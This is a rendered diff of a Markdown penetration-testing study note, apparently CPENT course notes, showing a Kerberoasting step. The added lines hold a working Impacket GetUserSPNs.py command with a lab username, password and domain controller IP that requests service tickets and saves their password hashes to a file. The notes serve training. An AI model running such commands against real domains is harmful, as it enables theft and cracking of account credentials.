

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around one of its changes. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -79,5 +79,6 @@ Kerberoasting
     setspn -s http/lpt.com user-one
 ![image](https://github.com/user-attachments/assets/fbca5919-1e5d-4a1f-9fff-c59e2e07dcd5)
 
-    取得在DC上註冊的服務
+    取得在DC上註冊的服務&密碼HASH
+    GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
 ![image](https://github.com/user-attachments/assets/f4ca12aa-9f57-4d1d-a892-6f0576e95622)
```
Also changed, not shown: other parts of Cpent/Day5.md (+4 -0 lines).
